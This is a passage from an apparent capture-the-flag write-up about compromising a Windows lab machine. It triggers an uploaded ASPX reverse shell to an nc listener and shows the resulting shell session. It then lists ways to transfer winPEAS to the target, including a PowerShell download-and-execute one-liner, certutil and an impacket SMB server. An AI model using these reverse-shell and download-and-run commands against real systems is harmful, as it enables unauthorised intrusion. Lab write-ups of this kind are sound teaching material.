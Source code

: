 Start the nc listener :

```
nc -lvp 1234
```

Then go see the page where the shell is upload :

```
curl http://10.10.10.5/shell.aspx
```

And I have a connection : 

```
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.5: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.5] 49164
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

I'm not "nt authority\system" (root on windows), I have the same rights as the web server, let's escalate !

Let's do some Windows reconnaissance, for that I used something called "winPEAS" [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS). So let's upload it to the box :

I'll show different methods to upload a file :

Start a HTTP server with python :

```
python -m SimpleHTTPServer
```

Then download the file using powershell :

```
powershell iex (New-Object Net.WebClient).DownloadString("http://10.10.14.4:8000/winPEAS.bat")
```

Or with certutil.exe

```
certutil.exe -urlcache -split -f http://10.10.14.4:8000/winPEAS.bat
```

You can do it with smbserver from impacket :

```
sudo smbserver.py liodeus ./
[sudo] password for liodeus: 
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
